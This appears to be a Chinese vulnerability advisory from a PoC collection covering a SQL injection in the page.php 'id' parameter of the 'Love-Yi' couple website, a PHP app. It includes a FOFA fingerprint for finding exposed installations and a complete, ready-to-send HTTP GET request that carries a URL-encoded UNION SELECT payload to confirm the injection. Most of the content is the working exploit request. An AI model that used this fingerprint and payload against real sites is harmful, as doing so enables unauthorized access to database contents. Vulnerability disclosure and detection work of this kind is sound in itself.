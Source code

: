 **fofa**

body="Style/toastr/toastr.js"

**一、漏洞简述**

Love-Yi情侣网站是使用php语言开发，基于爱情主题的表白网站。个人也可进行DIY设计进行美观，适合哄女朋友开心。其接口page.php存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
GET /page.php?id=%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2Cmd5(123456)%2CNULL%2CNULL--%20- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Connection: close


```

